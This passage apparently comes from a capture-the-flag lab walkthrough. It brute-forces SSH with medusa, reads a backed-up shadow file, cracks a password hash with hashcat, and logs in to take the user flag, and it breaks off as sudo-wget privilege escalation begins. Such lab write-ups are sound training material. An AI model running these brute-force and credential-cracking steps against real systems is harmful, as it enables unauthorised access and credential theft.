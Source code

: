 And now we can use the passwords.txt list we created with the tool medusa to do a brute-force attack on SSH:
```shell
medusa -h 10.129.144.138 -n 22022 -u sammy -P passwords.txt -M ssh
medusa -h 10.129.144.138 -n 22022 -u sunny -P passwords.txt -M ssh
```
Nice! We got valid credentials for the user sunny:
```shell
ACCOUNT FOUND: [ssh] Host: 10.129.144.138 User: sunny Password: sunday [SUCCESS]
```
Now we can get access as sunny using SSH:
```shell
ssh -p 22022 sunny@10.129.144.138
```
### Backup folder containing /shadow copy
Enumerating the folders, we found a backup containing users and hashes:
```shell
cat /backup/shadow.backup

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
We can use hashcat to try to crack these hashes:
```shell
cat hashes.txt

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3
```

```shell
hashcat -m 7400 hashes.txt /usr/share/wordlists/rockyou.txt
```
We managed to crack the password of sammy:
```shell
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```
Giving us the following credentials:
```shell
sammy:cooldude!
```
We can use these credentials to get access as sammy using SSH and get the user.txt flag:
```shell
ssh -p 22022 sammy@10.129.144.138
```
### User Flag
```shell
-bash-5.1$ cd ~
-bash-5.1$ ls
user.txt
-bash-5.1$ cat user.txt
```
# Privilege Escalation
### sudo -l and GTFOBins for wget
If we run sudo -l, we will get the following message telling us that the user sammy can run wget as sudo without password: